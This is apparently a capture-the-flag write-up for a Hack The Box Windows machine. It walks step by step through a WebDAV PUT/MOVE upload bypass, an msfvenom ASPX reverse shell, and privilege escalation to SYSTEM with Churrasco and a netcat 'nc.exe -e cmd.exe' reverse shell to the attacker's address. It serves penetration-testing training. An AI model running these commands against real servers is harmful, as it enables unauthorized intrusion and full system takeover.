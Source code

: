 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
[Done](Done)
- **Exploits Used**:
  - [HTTP](HTTP) WebDAV PUT/MOVE
  - File extension bypass via `.txt → .aspx`
  - Local PrivEsc using `Churrasco.exe`

---

## 🔍 Reconnaissance

### 🔎 Fast Port Scan
```bash
nmap -p- -T5 10.10.10.15
```
Only **port 80 ([HTTP](HTTP))** is open.

### 📌 Service Enumeration
```bash
nmap -p 80 -A 10.10.10.15 -v
```
- **Service**: Microsoft IIS httpd 6.0
- **Extensions**: WebDAV (with support for `PUT`, `MOVE`, `PROPFIND`, etc.)

---

## 🧪 WebDAV Enumeration

### 🛠️ Check WebDAV Methods
```bash
davtest -url http://10.10.10.15
```

Result:
- Can **upload** files (`PUT`)
- Can **rename/move** files (`MOVE`)
- But only `.html` and `.txt` can be **executed**
- **Workaround**: upload `.aspx` as `.txt`, then `MOVE` it back to `.aspx`

[🔗 WebDAV Exploit Reference](https://vk9-sec.com/exploiting-webdav/)

---

## 🚀 Exploitation – Upload Reverse Shell

### 1️⃣ Create ASPX Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f aspx -o shell.aspx
mv shell.aspx shell.txt
```

### 2️⃣ Upload Using [HTTP](HTTP) `PUT`
```bash
curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.txt
```

### 3️⃣ Rename Using [HTTP](HTTP) `MOVE`
```bash
curl -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' http://10.10.10.15/shell.txt
```

### 4️⃣ Start Listener
```bash
nc -nvlp 4444
```

### 5️⃣ Trigger Shell
Visit in browser:
```
http://10.10.10.15/shell.aspx
```

---

## 🐚 Shell Gained
```cmd
whoami
nt authority\network service
```

---

## 🚪 Privilege Escalation – SYSTEM

### 1️⃣ System Info
```cmd
systeminfo
```
- OS: **Windows Server 2003**
- Vulnerable to token impersonation (Churrasco)

### 2️⃣ Download Churrasco
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
mv churrasco.exe churrasco.txt
```

### 3️⃣ Upload via [HTTP](HTTP)
```bash
curl -X PUT http://10.10.10.15/churrasco.txt --data-binary @churrasco.txt
```

### 4️⃣ Rename in Shell
```cmd
ren churrasco.txt churrasco.exe
```

### 5️⃣ Upload `nc.exe`
```bash
cp /usr/share/windows-resources/binaries/nc.exe ~/Desktop
mv nc.exe nc.txt
curl -X PUT http://10.10.10.15/nc.txt --data-binary @nc.txt
ren nc.txt nc.exe
```

---

## 💥 SYSTEM Shell

### 1️⃣ Listener
```bash
nc -nvlp 5555
```

### 2️⃣ Execute Reverse Shell
```cmd
churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.13 5555"
```

---

## 🎯 Proof

### 🧍‍♂️ User Flag
```cmd
type C:\Documents and Settings\lakis\Desktop\user.txt
```

### 👑 Root Flag
```cmd
type C:\Documents and Settings\Administrator\Desktop\root.txt
```

---

## ✅ Summary

| Phase              | Method                                         |
|-------------------|------------------------------------------------|
| Recon              | Found IIS 6.0 with [HTTP](HTTP) WebDAV        |
| Initial Access     | Used PUT/MOVE to bypass extension restriction |
| Privilege Escalation | Token impersonation using `Churrasco.exe` |
| Final Access       | SYSTEM shell via netcat                       |

---

Let me know if you’d like this converted into a downloadable Markdown doc or exported for reporting 💾📄